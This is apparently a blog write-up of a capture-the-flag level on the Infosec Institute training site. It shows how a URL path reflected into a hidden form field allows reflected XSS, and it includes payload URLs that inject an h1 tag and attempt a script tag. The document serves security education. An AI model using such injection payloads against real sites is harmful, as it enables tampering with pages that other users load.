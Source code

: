 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 7
category: Web
tags: CTF challenges
---
```


# ctf.infosecinstitute.com: Level 7
**Vulnerability** A3 Cross-Site Scripting (XSS)
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.38.50 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
First let's inspect the source for anything interesting.

{% highlight html linenos %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php               '>
	<div>
		<input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

We see a "hidden" form that looks interesting... From the level description we know that since we need to share the page
with users, the XSS will be Reflective. Reflective XSS is done via the URL, let's start testing the URL.

If we insert '/TEST' at the end of the URL and inspect the source again, we will see that our string is being appended to the
hidden input field.

{% highlight html linenos %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/TEST               '>
	<div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

So to insert a &lt;h1&gt; tag, we need to inject a closing tag SQL injection style.

Final injection payload in the URL:

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><h1>Blah</h1>
{% endhighlight %} 

The source now looks like this:

{% highlight html linenos %}
<form class="ex7-form" action="">
    <label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
    <input type="text" id="name" name="name" class="form-control input-lg"/>
    <label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
    <input type="password" id="pass" name="pass" class="form-control input-lg"/>
    <input name="action" type="hidden" value='/'><h1>Blah</h1>               '>
    <div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
    	<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

With the "/'&gt;" we are closing the current HTML tag and injecting the &lt;h1&gt;&lt;/h1&gt; tag.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 3.42.45 PM.png)

I tried injecting some JavaScript so I can replace the "YOUR NAME HERE" text but it looks like JavaScript or anything that's not
&lt;h1&gt; gets stripped at the server side.

Injection URL:

{% highlight text linenos %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><script>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";</script>
{% endhighlight %}

And if we see the source, we will notice the &lt;script&gt; is stripped.

{% highlight html linenos %}
<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/'>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";               '>
<div>
{% endhighlight %}

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php>
